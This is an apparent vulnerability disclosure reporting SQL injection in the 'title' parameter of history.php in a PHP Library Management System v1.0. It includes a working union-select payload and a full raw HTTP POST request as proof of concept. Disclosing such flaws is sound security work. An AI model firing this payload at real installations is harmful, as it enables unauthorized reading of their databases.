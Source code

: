 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/history.php

Vulnerability location: /LMS/librarian/history.php?title=, title

[+] Payload: submit=&title=1' union select 1,database(),3,4--+ // Leak place ---> title

```sql
POST /LMS/librarian/history.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

submit=&title=1' union select 1,database(),3,4--+
```

![image](https://user-images.githubusercontent.com/54017627/180452225-dd55b247-2ebf-41e1-8c49-8617e18a12fa.png)
